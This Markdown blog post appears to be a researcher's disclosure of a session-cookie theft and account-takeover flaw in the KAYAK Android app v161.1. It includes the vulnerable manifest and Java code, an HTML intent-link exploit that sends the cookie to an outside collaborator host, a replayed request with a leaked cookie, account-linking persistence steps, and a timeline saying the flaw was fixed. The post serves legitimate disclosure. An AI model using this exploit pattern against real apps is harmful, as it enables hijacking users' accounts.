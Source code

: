 ```yaml
---
slug: account-takeover-kayak/
title: Account Takeover in KAYAK
date: 2022-11-23
subtitle: So it's the app itself that delivers the cookie to me?
category: attacks
tags: vulnerability, hacking, exploit, software, code
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1669164815/blog/account-takeover-kayak/cover_account_takeover_kayak.webp
alt: Photo by Nahel Abdul Hadi on Unsplash
description: In this blog post, I present in detail a zero-day vulnerability I discovered in KAYAK v161.1, along with the steps to follow to replicate the exploit.
keywords: Kayak, Mobile Application, Android, Session Cookie, Vulnerability, Exploit, Improper Access Control, Ethical Hacking, Pentesting
author: Carlos Bello
writer: cbello
name: Carlos Bello
about1: Security Researcher
source: https://unsplash.com/es/fotos/flha0KwRrRc
---
```


While researching zero-day vulnerabilities in mobile applications,
I found it's possible to steal a user's session cookie
through a malicious deeplink
in KAYAK v161.1.
Below,
I will explain this vulnerability in detail,
where it is located in the code
and what steps must be taken to replicate the exploit.

## Where is this vulnerability?

I found the following exported activity
in the AndroidManifest.xml file:

```xml
<activity android:name="com.kayak.android.web.ExternalAuthLoginActivity" android:exported="true" android:launchMode="singleTask">
    <intent-filter>
        <data android:scheme="kayak"/>
        <data android:host="externalAuthentication"/>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
    </intent-filter>
</activity>
```

This means that
any app installed on a mobile device
with that vulnerable version of KAYAK
can interact with this activity.
In addition,
this activity can be called from a deeplink
and accepts implicit intents.

## ExternalAuthLoginActivity

After noticing that,
I immediately went to the exported activity
to see what it did and how it did it.
While analyzing and reading the source code,
I came across two very striking functions:

```java
 private final String getRedirectUrl() {
        String stringExtra = getIntent().getStringExtra(EXTRA_REDIRECT_URL);
        return stringExtra == null ? "" : stringExtra;
 }

 private final void launchCustomTabs() {
        m.d b10 = new d.a(this.helper.getSession()).g(true).b();
        p.d(b10, "Builder(helper.session)\n…rue)\n            .build()");
        Uri.Builder buildUpon = Uri.parse(getRedirectUrl()).buildUpon();
        buildUpon.appendQueryParameter(SESSION_QUERY_PARAM, l.getInstance().getSessionId());
        i.openCustomTab(this, b10, buildUpon.build(), null);
 }
```

Since the activity is exported,
a malicious web page via a deeplink,
or a malicious mobile app via an intent,
could set up a malicious RedirectUrl
using the getRedirectUrl function.
Okay,
but for this to have an impact,
we need to see what we can do about this behavior.

That's where the launchCustomTabs method comes in,
which,
as we see,
concatenates a GET parameter to the URL.
That GET parameter is the mobile app user's session cookie:

```java
public final String getSessionId() {
        String cookieValueInternal;
        synchronized (this) {
            cookieValueInternal = getCookieValueInternal(SESSION_COOKIE_NAME);
        }
        return cookieValueInternal;
}
```

```java
public static final String SESSION_COOKIE_NAME = "p1.med.sid";
```

With this in mind,
I didn't hesitate to log into the web application
and delete all cookies
to end up with a request like the following:

```txt
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=[Cookie Here];
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

I uploaded the exploit to a malicious server:

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end">Exploit</a>;
    </body>
</html>
```

Then,
I opened it from the mobile app.
Checking the malicious server logs,
I saw how my account session cookie was leaked.
So I copied it and put it in the request I showed above:

```html
GET /profile/dashboard HTTP/2
Host: www.kayak.com.co
Cookie: p1.med.sid=65-R-4rhBEjEeCTHTB5bkcdEoO-RUM4RJuW5YvCJ3nfrsvdH0UbkjGBywHzVgsV0u8_Ys-4ay0zqH2q0Jt8H8EXM2yN-QEmydDQIbJ1eAmYZzh6nablokLtpHYCBUNGs7aoae;
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/ethical-hacking/"
title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>
</div>

## Account takeover POC

Below is a video demonstration of the exploitation
of this vulnerability:

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/vmTDH8QpMnA"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

## Problems and more problems - Account linking

I have found that
once I steal the victim's cookie
and log into the web application with it,
I can see the victim's data without any problem.
However,
I cannot edit them for some strange reason.
Therefore,
investigating the web application,
I realized that an attacker could gain full access to the account
—and then view, edit, delete information, etc.—
by simply linking a Google account
(or any other available provider).

In this case,
I linked a Google account corresponding to the attacker
to the victim's account.
The goal was that
the attacker would then only have to log into the application
from his Google account
to gain access to the victim's account.

<div class="tc">

<iframe
  width="560"
  height="315"
  src="https://www.youtube.com/embed/AgJRDqsawHU"
  frameborder="0"
  allowfullscreen
>
</iframe>

</div>

That's it.
An unauthenticated,
remote attacker can steal the account of any victim
logged into the KAYAK mobile app for Android
with a one-click attack.

## Timeline

### August 12, 2022

- Vulnerability reported:
  Improper Access Control
  (CVSS: 9.3; Critical)

- Vulnerability triaged

### August 13, 2022

- Vulnerability remediated

- KAYAK v161.2 (10048) available on Play Store
